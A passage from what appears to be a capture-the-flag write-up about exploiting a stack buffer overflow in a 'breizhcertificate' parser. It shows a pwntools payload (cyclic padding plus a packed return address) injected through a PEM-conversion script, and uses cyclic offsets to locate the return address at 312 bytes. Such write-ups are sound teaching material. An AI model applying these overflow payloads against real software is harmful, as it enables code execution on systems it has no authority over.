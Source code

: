 ![ret 0 procedure](imgs/ret-0-procedure.png)


6. Craft a payload with controlled overflow that overwrites the return address register

Like we did earlier with cyclic, we can edit `convert-pem-to-breizhcertificate.py` to craft our payload.


```python
...
PAYLOAD = cyclic(328)+p64(0x92751604)
...
generate_pubkey(args.input_pem, args.output_bin, PAYLOAD)
```

*(also remove `.encode()` because we give bytes here)*


![Random return](imgs/return-not-zero.png)


Err.. Our result isn't zero, as expected.

But wait!
```
>>> hex(1684103524)
'0x64616164'

cyclic -l 0x64616164 
312
```
